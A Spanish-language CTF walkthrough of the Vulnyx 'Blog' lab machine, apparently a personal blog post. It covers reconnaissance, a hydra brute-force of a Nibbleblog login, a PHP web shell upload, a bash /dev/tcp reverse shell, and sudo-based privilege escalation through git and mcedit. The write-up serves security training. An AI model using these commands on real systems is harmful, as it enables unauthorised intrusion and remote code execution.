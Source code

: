 ```yaml
---
layout: post
title: "Blog"
date: 2024-04-22 11:55:23
category: Vulnyx
vm: vulnyx
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Blog </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#blog"> Vulnyx</a></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnyx/blog/host.png){:.margin}

**1\.** Vemos los dispositivos en nuestra red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/vulnyx/blog/arp_scan.png){:.margin}

**2\.** Escaneamos puertos abiertos y versión de servicios que corren.

`sudo nmap -p- -sS -T5 -sC -sV --min-rate=5000 --open -n -Pn 192.168.1.10 -oN report_scan`

![img](/notas/public/img/vulnyx/blog/nmap.png){:.margin}

**3\.** Ojeamos el servicio web de apache, vemos al parecer la salida de un comando.

`htt://192.168.1.10/`

![img](/notas/public/img/vulnyx/blog/80.png){:.margin}

**4\.** Hacemos fuzzing de archivos y directorios.
 
 `gobuster dir -u http://192.168.1.10/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt`

![img](/notas/public/img/vulnyx/blog/gobuster.png){:.margin}

**5\.** Vamos a la nueva ruta, tenemos una página.

`http://192.168.1.10/my_weblog/`

![img](/notas/public/img/vulnyx/blog/my_weblog.png){:.margin}

**6\.** Presionamos `ctrl+u` para ver el código fuente, podemos ver que está a base de Nibbleblog.

![img](/notas/public/img/vulnyx/blog/ctrl_u.png){:.margin}

**7\.** Otra alternativa para ver la estructura de la web.

`whatweb http://192.168.1.10/my:weblog/`

![img](/notas/public/img/vulnyx/blog/whatweb.png){:.margin}

**8\.** Seguimos fuzzeando ahora en la ruta my_weblog.

`gobuster dir -u http://192.168.1.10/my_weblog/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt`

![img](/notas/public/img/vulnyx/blog/gobuster_weblog.png){:.margin}

**9\.** Accedemos a admin.php , tenemos un panel login.

`http://192.168.1.10/my_weblog/admin.php`

![img](/notas/public/img/vulnyx/blog/login.png){:.margin}

**10\.** En nibbleblog tenemos una ruta de usuarios.

`http://192.168.1.10/my_weblog/content/private/ users.xml`

![img](/notas/public/img/vulnyx/blog/users.png){:.margin}

**11\.** Presionamos f12, revisemos como se tramita el login.

![img](/notas/public/img/vulnyx/blog/headers.png){:.margin}

![img](/notas/public/img/vulnyx/blog/payload.png){:.margin}

**12\.** Hacemos bruteforce al panel login teniendo el usuario.

`hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.10 http-post-form "/my_weblog /admin.php: username=^USER^&password=^PASS^:Incorrect" -F -I`

![img](/notas/public/img/vulnyx/blog/hydra.png){:.margin}

**13\.** Creamos un archivo para subirlo y ejecutar comandos en la url.

`nano shell.php`

`<?php system($_GET["cmd"]);?>`

![img](/notas/public/img/vulnyx/blog/shell.png){:.margin}

_\- Subimos el archivo._

![img](/notas/public/img/vulnyx/blog/upload.png){:.margin}

**14\.** Si buscamos un exploit para nibbleblog encontramos la [ruta](https://www.exploit-db.com/exploits/38489) donde indica como encontrar nuestro archivo.

![img](/notas/public/img/vulnyx/blog/path.png){:.margin}

**15\.** Nos ponemos en escucha.

![img](/notas/public/img/vulnyx/blog/nc.png){:.margin}

**16\.** Enviamos la reverse_shell al nc.

`http://192.168.1.10/my_weblog/content/ private/plugins/ my_image/image.php?cmd= bash -c "bash -i>%26/dev/tcp/192.168.1.9/443 0>%261"`

_\- Aquí obtenemos la sessión._

![img](/notas/public/img/vulnyx/blog/reverse_shell.png){:.margin}

_\- Obtenemos la conexión._

![img](/notas/public/img/vulnyx/blog/connected.png){:.margin}

**17\.** Hacemos tratamiento de la tty.

`script /dev/null -c bash`

`ctrl+z`

`stty raw -echo; fg`

`reset xterm`

`export SHELL=/bin/bash`

`export TERM=xterm`

![img](/notas/public/img/vulnyx/blog/stty.png){:.margin}

![img](/notas/public/img/vulnyx/blog/stty2.png){:.margin}

**18\.** Revisamos permisos sudo, podemos ejecutar git como admin.

![img](/notas/public/img/vulnyx/blog/sudo_l_admin.png){:.margin}

**19\.** Ganamos acceso como usuario admin.

_\- Buscamos en [GTFobins](https://gtfobins.github.io/#git) como escalar:_

`sudo -u admin git -p help config`

`!/bin/bash`

![img](/notas/public/img/vulnyx/blog/git.png){:.margin}

**20\.** Volvemos a revisar permisos sudo, podemos ejecutar un binario como root.

`sudo -l`

![img](/notas/public/img/vulnyx/blog/sudo_l_root.png){:.margin}

**21\.** Ganamos acceso como usuario root y leemos la flag.

`sudo -u root mcedit`

`F9 -> enter`

`F11 -> enter`  ... _F9 -> U -> enter (alternativo)_

`s -> enter`

![img](/notas/public/img/vulnyx/blog/mcedit.png){:.margin}

![img](/notas/public/img/vulnyx/blog/mcedit2.png){:.margin}

![img](/notas/public/img/vulnyx/blog/flag.png){:.margin}

<br>

<a href="#">_Finalizado._</a>